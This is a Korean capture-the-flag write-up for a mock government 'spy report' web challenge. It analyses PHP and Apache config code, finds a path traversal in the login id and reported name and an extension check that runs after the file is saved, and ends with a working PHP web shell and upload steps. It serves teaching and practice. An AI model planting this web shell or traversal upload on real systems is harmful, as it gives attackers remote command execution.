







# 04-정보자원관리원(25.07.31)

---

## 문제 환경 구성

---

```docker
https://apollo2.cstec.kr/challenges#04-%EC%A0%95%EB%B3%B4%EC%9E%90%EC%9B%90%EA%B4%80%EB%A6%AC%EC%9B%90-28
```

## Description

---



### 초기 화면



## Background

---

- PATH Traversal
- web shell
- .conf 파일 디렉토리 옵션
    - https://blog.naver.com/forioso/220909700887
    - https://m.blog.naver.com/sol9501/70086622550

## 코드분석

---

- 파일이 너무 많은 관계로 핵심 코드만 분석

### report.php

```php
<?php session_start(); ?>
<!DOCTYPE html>
<html lang="ko">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>정보자원관리원 Webpage</title>
    <link href="https://fonts.googleapis.com/css2?family=Noto+Sans+KR:wght@400;500;700&display=swap" rel="stylesheet">
    <link href="https://cdn.jsdelivr.net/npm/tailwindcss@2.2.19/dist/tailwind.min.css" rel="stylesheet">
    <link rel="stylesheet" href="style.css">
</head>
<body>
    <!-- Header -->
    <?php include 'config/header.php'; ?>
    <?php
        if (!isset($_SESSION['uid'])) { // 로그인 확인
            die('<script>alert("로그인이 필요합니다.");location.href="/login"</script>');
        }
    ?>
    <br>
    <div class="container mx-auto px-4">
        <div class="flex items-center space-x-2 text-gray-600">
            <a href="#" class="hover:underline">Home</a>
            <span>&gt;</span>
            <a href="#" class="hover:underline">참여·민원</a>
            <span>&gt;</span>
            <span class="text-gray-900 font-semibold">간첩신고</span>
            <span>&gt;</span>
            <span class="text-gray-900 font-semibold">간첩 신고</span>
        </div>
        <h2 class="text-2xl font-bold mt-2">간첩 신고</h2>
    </div>
    <!-- Hero Section -->
    <section class="max-w-7xl mx-auto px-6 py-12">
        <div class="flex flex-col md:flex-row items-center md:items-start space-y-6 md:space-y-0 md:space-x-12">
            <div class="w-full">
                <h3 class="text-2xl font-semibold mb-4">신고자 정보</h3>
                <?php
                $user_name = $_SESSION['uid']; // 세션에서 사용자 이름 가져오기
                $file_path = "/app/user/".$user_name."/profile.json"; // 사용자 프로필 파일 경로
                $user_data = json_decode(file_get_contents($file_path), true); // 프로필 파일 읽기
                echo "<p>이름 : ".$user_data['name']."</p>";
                echo "<p>아이디 : ".$user_data['uid']."</p>";
                echo "<p>이메일 : ".$user_data['email']."</p>";
                echo "<p>전화번호 : ".$user_data['pnum']."</p>";
            ?>

                <form action="/api/report_check.php" method="post" enctype="multipart/form-data">
                    <div class="mt-4">
                        <label for="name" class="block text sm font-medium text-gray-700">신고 대상자 이름</label>
                        <input type="text" id="name" name="name" class="mt-1 block w-full p-2 border border-gray-300 rounded-md">
                    </div>
                    <div class="mt-4">
                        <label for="content" class="block text sm font-medium text-gray-700">신고 사유</label>
                        <textarea id="content" name="content" class="mt-1 block w-full p-6 border border-gray-300 rounded-md"></textarea>
                    </div>

                    <div class="mt-4">
                        <label for="evidence" class="block text sm font-medium text-gray-700">증거 첨부</label>
                        <input type="file" id="evidence" name="evidence" class="mt-1 block w-full p-2 border border-gray-300 rounded-md">
                    </div>

                    <div class="mt-4">
                        <button type="submit" class="px-4 py-2 bg-blue-600 text-white rounded-md">신고하기</button> 
                    </div>
                </form>
            </div>
    </section>

    <?php include 'config/footer.php'; ?>
</body>
</html>

```

### 000-default.conf

- 옵션
    - Indexes: 디렉토리 인덱싱 활성화
    - FollowSymLinks: 심볼릭 링크 클릭 시 디렉토리를 따라감
        
        → 간단하게 말하면 디렉토리를 검색하면 파일 목록 출력
        
        - 단, 디렉토리 접근 시 index.html 등의 DirectoryIndex에서 지정한 파일이 존재할 경우는 볼 수 없다.
        - DirectoryIndex: 클라이언트가 웹 서버로 요청했을 때, 파일명을 지정하지 않고 디렉토리만 지정되었을 경우 기본으로 반환해주는 파일
    

```bash
<VirtualHost *:80>
        # The ServerName directive sets the request scheme, hostname and port that
        # the server uses to identify itself. This is used when creating
        # redirection URLs. In the context of virtual hosts, the ServerName
        # specifies what hostname must appear in the request's Host: header to
        # match this virtual host. For the default virtual host (this file) this
        # value is not decisive as it is used as a last resort host regardless.
        # However, you must set it for any further virtual host explicitly.
        #ServerName www.example.com

        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html

        # Available loglevels: trace8, ..., trace1, debug, info, notice, warn,
        # error, crit, alert, emerg.
        # It is also possible to configure the loglevel for particular
        # modules, e.g.
        #LogLevel info ssl:warn

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
        <Directory /var/www/html>
                Options Indexes FollowSymLinks # 디렉토리를 검색하면 파일 목록 출력
                AllowOverride All # 파일 덮어쓰기 허용
                Require all granted # 모든 접근 요청 허용
        </Directory>

        <Directory /app>
            Options Indexes FollowSymLinks
            AllowOverride None # 파일 덮어쓰기 불가능
            Require all granted
        </Directory>

        RewriteEngine On
        RewriteRule ^/user/(.+)$        /app/user/$1/profile.json
        RewriteRule ^/login$            /login.php
        RewriteRule ^/report$           /report.php
        RewriteRule ^/footer/(.+)$      /TODO.php
        RewriteRule ^/about/(.+)$       /$1.xml
        
</VirtualHost>
```

### report_check.php

```php
<?php
    session_start();
    if(!isset($_SESSION['uid'])) {
        header('Location: /login.php');
    }

    include '../config/db.php';

    function generateRandomString($length = 10) { // 랜덤 문자열 생성 함수
        $characters = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ';
        $charactersLength = strlen($characters);
        $randomString = ''; 
    
        for ($i = 0; $i < $length; $i++) { // 10자리 랜덤 문자열 생성
            $randomString .= $characters[random_int(0, $charactersLength - 1)]; // 랜덤 문자 선택
        }
    
        return $randomString;
    }

    $name = $_POST['name']; // 신고 대상자 이름
    $content = $_POST['content']; // 신고 내용
    $author = $_SESSION['uid']; // 신고자 ID

    if(!$name || !$content) {
        die("신고자 및 신고 대상자를 모두 입력해주세요.");
    }

    $maxFileSize = 3 * 1024 * 1024; // 3MB

    $evidence = $_FILES['evidence']; // 증거 파일, $FILES['evidence']는 파일 업로드 시 자동 생성되는 슈퍼 글로벌 배열
    /* 

    $_FILES['evidence'] = [
        'name' => 'example.zip',         // 원래 파일 이름
        'type' => 'application/zip',     // MIME 타입
        'tmp_name' => '/tmp/php123.tmp', // 서버에 저장된 임시 파일 경로
        'error' => 0,                    // 업로드 오류 코드 (0이면 오류 없음)
        'size' => 123456                 // 파일 크기 (바이트 단위)
    ];
    */
    
    $random_name = generateRandomString(); // 랜덤 이름 생성
    if($evidence['size'] > 0) { // 파일이 업로드된 경우
        if($evidence['size'] > $maxFileSize) { // 파일 크기 제한
            die("파일 크기는 3MB 이하여야 합니다.");
        }
        if($evidence['error'] === 0) { // 파일 업로드 오류가 없는 경우
            $evidencePath = '/app/report/' . $name . '_' . $random_name.'_'.$evidence['name']; // 파일 경로 설정 ex) /app/report/신고자이름_랜덤문자_파일이름
            move_uploaded_file($evidence['tmp_name'], $evidencePath);  // ex) /app/report/신고자이름_랜덤문자_파일이름.zip
        }
    
        $ext = pathinfo($evidencePath, PATHINFO_EXTENSION); // 파일 확장자 추출
        $stmt = $dbcon->prepare("INSERT INTO report (name, content, evidence, author_id) VALUES (?, ?, ?, ?)"); // 신고 정보 DB에 저장
        $stmt->bind_param("ssss", $name, $content, $evidencePath, $author); // 파라미터 바인딩 (sql 인젝션 우회), ssss는 문자열 타입을 의미함
        $stmt->execute(); // 쿼리 실행
    
        if($ext !== 'zip'){ // zip 파일이 아닌 경우
            die("zip 파일만 업로드 가능합니다.");
        }
    
        echo "<script>alert('신고가 완료되었습니다. 신고번호 : ".$random_name."');history.go(-1)</script>";
    } else { // 파일이 없는 경우
        $stmt = $dbcon->prepare("INSERT INTO report (name, content, author_id) VALUES (?, ?, ?)");
        $stmt->bind_param("sss", $name, $content, $author);
        $stmt->execute();
        echo "<script>alert('신고가 완료되었습니다. 신고번호 : ".$random_name."');history.go(-1)</script>";
    }
?>
```

## 익스플로잇

---

### 취약점 분석

- `report.php` 와 `report_check.php` 에서 파일의 경로를 설정하고 파일을 저장할 때 사용자의 입력을 그대로 경로를 만드는데 사용하기 때문에 PATH Traversal  공격이 가능
- `report_check.php` 에서 증거파일의 확장자를 확인하지만, 확인하기 전 해당 파일이 저장 됨.
    
    → 파일은 정상적으로 올라감
    

### 익스플로잇 단계

### 1. 로그인 시 아이디를 이용해 파일을 업로드할 디렉토리 생성


`/app/user/".$user_name."/profile.json"` 

→ `app/user/../../var/www/html/guest12/profile.json`

→ `var/www/html/guest12/profile.json`

guest12라는 디렉토리가 `var/www/html/guest12`에 생성되게 된다.



### 2. 신고 대상자 이름 칸의 값을 조작해 생성한 디렉토리로 웹쉘 파일 업로드






### 3. 업로드한 웹쉘 파일을 이용해 flag를 획득!





```bash
../../../../<실행파일명>
```

### 익스플로잇 코드

```bash
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>"> 
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form> 
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

## 핵심 정리 (본 문제에서 알아가야할 내용)

conf 파일 옵션도 확인해보자. 

→ 코드를 아주 꼼꼼하게 보자..